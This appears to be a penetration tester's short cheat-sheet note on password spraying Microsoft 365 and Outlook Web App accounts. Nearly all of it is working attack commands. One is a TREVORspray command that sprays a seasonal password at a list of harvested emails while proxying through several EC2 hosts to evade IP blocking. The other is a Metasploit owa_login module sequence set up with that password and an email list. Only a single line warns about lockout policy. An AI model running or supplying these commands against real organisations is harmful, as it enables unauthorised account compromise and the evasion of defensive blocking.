 ```yaml
---
title: Password Spraying
updated: 2023-11-02 10:00:11Z
created: 2023-11-02 09:37:48Z
latitude: -33.86881970
longitude: 151.20929550
altitude: 0.0000
---
```


# Password Spraying
IMPORTANT: Make sure you understand the **Password Lockout Policy** before spraying. Log an Alert for lockout events.

## O365
### TREVORspray
Need to bypass blocking IP addresses. SSH proxy into multiple EC2 hosts: 
`./trevorspray.py -e /opt/trevorspray/log/valid_emails.txt --passwords 'Winter2023!' --delay 15 --no-current-ip --ssh ubuntu@EC2_IP1 ubuntu@EC2_IP2 ubuntu@EC2_IP3 ubuntu@EC2_IP4 -k hacking.pem`

## Outlook Web App
### Metasploit
`search owa`
`use auxiliary/scanner/http/owa_login`
`options`
`set password Winter2023!`
`set user_file email_list.txt` 
`set threads 10`
